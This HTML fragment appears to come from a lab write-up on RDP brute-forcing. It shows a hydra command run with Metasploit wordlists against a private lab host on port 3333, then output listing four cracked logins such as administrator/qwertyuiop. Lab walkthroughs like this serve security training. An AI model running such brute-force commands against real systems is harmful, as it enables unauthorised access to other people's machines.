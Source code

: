<p class="mx-auto w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl text-start justify-self-start">📌 The <strong class="font-bold">RDP is exposed on target port </strong><code class="py-[1px] px-1.5 min-w-[1.625rem] justify-center items-center ring-1 ring-inset ring-tint bg-tint rounded text-[.875em] leading-[calc(max(1.20em,1.25rem))]"><strong class="font-bold">3333</strong></code>, and not on the default port <code class="py-[1px] px-1.5 min-w-[1.625rem] justify-center items-center ring-1 ring-inset ring-tint bg-tint rounded text-[.875em] leading-[calc(max(1.20em,1.25rem))]">3389</code>.</p>
</blockquote>
<div class="relative hash grid grid-area-1-1 h-[1em] border-0 opacity-0 group-hover/hash:opacity-[0] group-focus/hash:opacity-[0] md:group-hover/hash:md:opacity-[1] md:group-focus/hash:md:opacity-[1] -ml-6 pr-2">&nbsp;</div>
<div class="flex-1 z-[1] text-start justify-self-start leading-snug">RDP Brute-force</div>
<h3 id="rdp-brute-force" class="text-2xl font-semibold heading flex items-baseline scroll-m-12 relative group/hash mx-auto w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl page-api-block:ml-0 column-first-of-type:pt-0 pt-[0.75em]"></h3>
<ul class="min-w-0 space-y-2 mx-auto w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl page-api-block:ml-0">
<li class="leading-normal flex items-start">
<div class="text-base leading-normal mr-1 flex min-h-[1lh] min-w-6 items-center justify-center text-tint">
<div class="before:font-var before:content-[--pseudoBefore--content]">&nbsp;</div>
</div>
<div class="flex min-w-0 flex-1 flex-col space-y-2">
<p class="w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl min-h-[1lh] flip-heading-hash [&amp;:is(h2)]:pt-0 [&amp;:is(h3)]:pt-0 [&amp;:is(h4)]:pt-0 mx-0 text-start justify-self-start">Try <code class="py-[1px] px-1.5 min-w-[1.625rem] justify-center items-center ring-1 ring-inset ring-tint bg-tint rounded text-[.875em] leading-[calc(max(1.20em,1.25rem))]">hydra</code> to find valid username and password</p>
</div>
</li>
</ul>
<div class="group/codeblock grid grid-flow-col mx-auto w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl page-api-block:ml-0" aria-busy="false">
<div class="flex items-center justify-start gap-2 text-sm [grid-area:1/1]">&nbsp;</div>
<button class="z-[2] mt-2 mr-2 self-start justify-self-end rounded-md bg-transparent p-1 text-tint text-xs leading-none opacity-0 ring-1 ring-tint backdrop-blur-md transition-opacity duration-75 [grid-area:2/1] hover:ring-tint-hover group-hover/codeblock:opacity-[1] print:hidden">Copy</button>
<pre class="relative overflow-auto border border-tint-subtle bg-tint-subtle theme-muted:bg-tint-base p-2 [grid-area:2/1] contrast-more:border-tint contrast-more:bg-tint-base [html.theme-bold.sidebar-filled_&amp;]:bg-tint-base rounded-md straight-corners:rounded-sm shadow-sm"><code id="&laquo;R3l38ut1letrnb&raquo;" class="inline-grid min-w-full grid-cols-[auto_1fr] [count-reset:line] print:whitespace-pre-wrap"><span class="highlight-line-content">hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3333</span></code></pre>
</div>
<div class="group/codeblock grid grid-flow-col mx-auto w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl page-api-block:ml-0" aria-busy="false">
<div class="flex items-center justify-start gap-2 text-sm [grid-area:1/1]">&nbsp;</div>
<button class="z-[2] mt-2 mr-2 self-start justify-self-end rounded-md bg-transparent p-1 text-tint text-xs leading-none opacity-0 ring-1 ring-tint backdrop-blur-md transition-opacity duration-75 [grid-area:2/1] hover:ring-tint-hover group-hover/codeblock:opacity-[1] print:hidden">Copy</button>
<pre class="relative overflow-auto border border-tint-subtle bg-tint-subtle theme-muted:bg-tint-base p-2 [grid-area:2/1] contrast-more:border-tint contrast-more:bg-tint-base [html.theme-bold.sidebar-filled_&amp;]:bg-tint-base rounded-md straight-corners:rounded-sm shadow-sm"><code id="&laquo;R3t38ut1letrnb&raquo;" class="inline-grid min-w-full grid-cols-[auto_1fr] [count-reset:line] print:whitespace-pre-wrap"><span class="highlight-line-content">[3333][rdp] host: 10.4.18.131   login: sysadmin   password: samantha
</span><span class="highlight-line-content">[3333][rdp] host: 10.4.18.131   login: demo   password: victoria
</span><span class="highlight-line-content">[3333][rdp] host: 10.4.18.131   login: auditor   password: elizabeth
</span><span class="highlight-line-content">[3333][rdp] host: 10.4.18.131   login: administrator   password: qwertyuiop</span></code></pre>
</div>